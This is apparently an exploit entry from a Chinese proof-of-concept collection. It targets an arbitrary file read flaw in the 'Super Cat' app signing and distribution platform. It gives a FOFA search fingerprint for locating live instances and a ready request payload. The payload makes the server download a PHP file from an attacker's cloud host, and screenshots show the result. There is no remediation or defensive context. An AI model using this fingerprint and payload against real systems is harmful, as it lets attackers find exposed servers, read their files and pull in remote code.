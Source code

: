 # C15-2超级猫-签名APP分发平台-任意文件读取

## 漏洞描述：

超级猫超级签名分发平台是一个安卓苹果APP分发平台，能够对所有安卓苹果的APP进行签名分发，使所有自行开发的APP能够签名使用，包括登录注册等功能，还提供有SDK

## fofa语法：

"/themes/97013266/public/static/css/pc.css"

## 漏洞复现：

注意这里需要先登录，这处可以直接注册的 payload：

```auto
/user/profile/download?url=http://云服务器地址/111.php&path=1Copy to clipboardErrorCopied
```

效果图： ![效果图](https://github.com/user-attachments/assets/455cedb5-1ab7-494f-91aa-9d3a32a8a727)
 
效果图： ![效果图](https://github.com/user-attachments/assets/ab3bdabc-a378-4482-8339-eb8a2ddbe0bc)
